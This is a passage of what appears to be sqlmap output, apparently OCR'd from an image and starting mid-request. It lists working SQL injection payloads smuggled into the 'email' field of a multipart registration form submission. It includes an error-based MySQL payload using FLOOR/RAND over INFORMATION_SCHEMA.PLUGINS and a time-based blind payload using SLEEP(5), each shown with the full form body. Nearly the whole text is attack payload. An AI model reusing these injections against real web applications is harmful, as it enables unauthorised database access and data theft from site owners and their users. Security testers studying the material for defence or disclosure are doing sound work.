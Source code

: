 ```

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
-----------------------------358741317412787265312048716550--

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: -----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="name"

test
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="uname"

testersin
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="email"

test@test.com' OR (SELECT 9832 FROM(SELECT COUNT(*),CONCAT(0x716b6b7671,(SELECT (ELT(9832=9832,1))),0x717a627871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'ZTBd'='ZTBd
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="rpassword"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
-----------------------------358741317412787265312048716550--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: -----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="name"

test
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="uname"

testersin
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="email"

test@test.com' AND (SELECT 7637 FROM (SELECT(SLEEP(5)))yslj) AND 'HvYI'='HvYI
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="password"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="rpassword"

Test123!
-----------------------------358741317412787265312048716550
Content-Disposition: form-data; name="submit"

Submit
```